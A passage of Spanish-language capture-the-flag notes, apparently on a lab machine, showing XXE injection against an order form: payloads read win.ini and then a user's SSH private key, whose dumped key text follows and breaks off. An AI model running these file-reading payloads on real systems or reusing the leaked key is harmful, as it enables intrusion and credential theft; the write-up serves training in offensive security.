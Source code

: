 ----------

# [[XXE (XML External Entity)]] y conexion por [[ssh]]

Interceptamos con burpsuite la peticion de la parte de ordenes de la pagina
![[Markup10.png]]

![[Markup12.png]]
Ahora vamos a cambiar la estructura del XML por lo que vimos en el [articulo de xxe payloadallthethings](https://gitlab.com/kalilinux/packages/payloadsallthethings/-/tree/kali/master/XXE%20Injection)
![[Markup14.png]]

Como estamos en una maquina linux, vamos a leer el archivo win.ini de prueba, en la parte que pusimos &test; lo hicimos por que el unico output que se muestra como se ve en la primera foto es el de esa etiqueta
```xml
<?xml version = "1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/windows/win.ini'>]>
<order><quantity>test</quantity><item>&test;</item><address>test2</address></order>
```


![[Markup13.png]]

### Sacamos archivo de id_rsa
Como sabemos que existe el usuario daniel y esta activo el servicio de ssh por el puerto 22 como vimos antes con nmap
Vamos a ver si en su escritorio tiene las claves de ssh
```
<?xml version = "1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/users/daniel/.ssh/id_rsa'>]>
<order><quantity>test</quantity><item>&test;</item><address>test2</address></order>
```


```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEArJgaPRF5S49ZB+Ql8cOhnURSOZ4nVYRSnPXo6FIe9JnhVRrdEiMi
QZoKVCX6hIWp7I0BzN3o094nWInXYqh2oz5ijBqrn+NVlDYgGOtzQWLhW7MKsAvMpqM0fg
HYC5nup5qM8LYDyhLQ56j8jq5mhvEspgcDdGRy31pljOQSYDeAKVfiTOOMznyOdY/Klt6+
ca+7/6ze8LTD3KYcUAqAxDINaZnNrG66yJU1RygXBwKRMEKZrEviLB7dzLElu3kGtiBa0g
DUqF/SVkE/tKGDH+XrKl6ltAUKfald/nqJrZbjDieplguocXwbFugIkyCc+eqSyaShMVk3
PKmZCo3ddxfmaXsPTOUpohi4tidnGO00H0f7Vt4v843xTWC8wsk2ddVZZV41+ES99JMlFx
LoVSXtizaXYX6l8P+FuE4ynam2cRCqWuislM0XVLEA+mGznsXeP1lNL+0eaT3Yt/TpfkPH
3cUU0VezCezxqDV6rs/o333JDf0klkIRmsQTVMCVAAAFiGFRDhJhUQ4SAAAAB3NzaC1yc2
EAAAGBAKyYGj0ReUuPWQfkJfHDoZ1EUjmeJ1WEUpz16OhSHvSZ4VUa3RIjIkGaClQl+oSF
qeyNAczd6NPeJ1iJ12KodqM+Yowaq5/jVZQ2IBjrc0Fi4VuzCrALzKajNH4B2AuZ7qeajP
C2A8oS0Oeo/I6uZobxLKYHA3Rkct9aZYzkEmA3gClX4kzjjM58jnWPypbevnGvu/+s3vC0
w9ymHFAKgMQyDWmZzaxuusiVNUcoFwcCkTBCmaxL4iwe3cyxJbt5BrYgWtIA1Khf0lZBP7
Shgx/l6ypepbQFCn2pXf56ia2W4w4nqZYLqHF8GxboCJMgnPnqksmkoTFZNzypmQqN3XcX
5ml7D0zlKaIYuLYnZxjtNB9H+1beL/ON8U1gvMLJNnXVWWVeNfhEvfSTJRcS6FUl7Ys2l2
F+pfD/hbhOMp2ptnEQqlrorJTNF1SxAPphs57F3j9ZTS/tHmk92Lf06X5Dx93FFNFXswns
8ag1eq7P6N99yQ39JJZCEZrEE1TAlQAAAAMBAAEAAAGAJvPhIB08eeAtYMmOAsV7SSotQJ
HAIN3PY1tgqGY4VE4SfAmnETvatGGWqS01IAmmsxuT52/B52dBDAt4D+0jcW5YAXTXfStq
mhupHNau2Xf+kpqS8+6FzqoQ48t4vg2Mvkj0PDNoIYgjm9UYwv77ZsMxp3r3vaIaBuy49J
ZYy1xbUXljOqU0lzmnUUMVnv1AkBnwXSDf5AV4GulmhG4KZ71AJ7AtqhgHkdOTBa83mz5q
FDFDy44IyppgxpzIfkou6aIZA/rC7OeJ1Z9ElufWLvevywJeGkpOBkq+DFigFwd2GfF7kD
1NCEgH/KFW4lVtOGTaY0V2otR3evYZnP+UqRxPE62n2e9UqjEOTvKiVIXSqwSExMBHeCKF
+A5JZn45+sb1AUmvdJ7ZhGHhHSjDG0iZuoU66rZ9OcdOmzQxB67Em6xsl+aJp3v8HIvpEC
sfm80NKUo8dODlkkOslY4GFyxlL5CVtE89+wJUDGI0wRjB1c64R8eu3g3Zqqf7ocYVAAAA
wHnnDAKd85CgPWAUEVXyUGDE6mTyexJubnoQhqIzgTwylLZW8mo1p3XZVna6ehic01dK/o
1xTBIUB6VT00BphkmFZCfJptsHgz5AQXkZMybwFATtFSyLTVG2ZGMWvlI3jKwe9IAWTUTS
IpXkVf2ozXdLxjJEsdTno8hz/YuocEYU2nAgzhtQ+KT95EYVcRk8h7N1keIwwC6tUVlpt+
```